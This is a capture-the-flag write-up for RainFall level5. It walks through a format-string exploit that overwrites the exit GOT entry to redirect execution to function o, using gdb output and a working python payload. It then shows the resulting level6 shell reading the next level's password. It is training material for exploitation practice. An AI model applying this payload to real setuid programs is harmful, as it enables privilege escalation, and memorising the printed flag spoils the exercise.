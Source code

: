 # level5

## Header

```bash
ssh level5@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

<hr>

## Solution

This level uses format string attack again, but there is no `m` variable to overwrite, so we'll overwrite `exit` address in the `GOT` table. <br>
See [disassembled code](./source.s) and [source](./source.c) file to understand more.


```bash
level5@RainFall:~$ gdb -batch -ex 'disas n' level5 | grep exit
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>

level5@RainFall:~$ gdb -batch -ex 'disas 0x80483d0' level5
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```
So, the address that resolves exit function is `0x8049838`.

The next thing we need is address of `o` function:
```bash
level5@RainFall:~$ gdb -batch -ex 'p o' level5
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

And a little trick to convert hex numbers to decimal in bash:
```bash
level5@RainFall:~$ $((0x80484a4))
134513828: command not found
```

Let's exploit now (pay attention, we subtracted 4 bytes from `o` address):
```bash
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5
whoami
level6
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
pwd
/home/user/level5
cd ../level6
ls -la   
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## References
- [The video, that explains solution to almost the same problem](https://www.youtube.com/watch?v=t1LH9D5cuK4)
- [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)